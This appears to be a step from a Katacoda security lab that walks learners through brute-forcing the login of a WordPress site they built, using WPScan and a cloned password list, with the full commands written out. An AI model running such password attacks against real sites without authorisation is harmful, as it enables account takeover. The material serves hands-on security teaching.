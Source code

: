 ### **3. Introduction Brute-Force Attack**
---

### **What is Brute-force attack?**
```
Brute-force attack means the attacker submits a huge number of passwords or usernames to guess the username and password correctly. 
```
#### Now let try to enforce the brute-force attack to the WordPress website we have just created.
<br></br>
### Step 1:
#### Download the WPscan using the command:

`gem install wpscan`{{execute}}
### Step 2:
#### Clone the crack.txt file which includes a list of password from Github using the command:
`git clone https://github.com/tonywong586/CrackList.git`{{execute}}
<br></br>
access the CrackList file using the following command:

`cd CrackList`{{execute}}
<br></br>
### Step 4:
#### Use the following command to enforce the Brute-force attack
`
wpscan --url https://[[HOST_SUBDOMAIN]]-8000-[[KATACODA_HOST]].environments.katacoda.com --passwords crack.txt
`{{execute}}

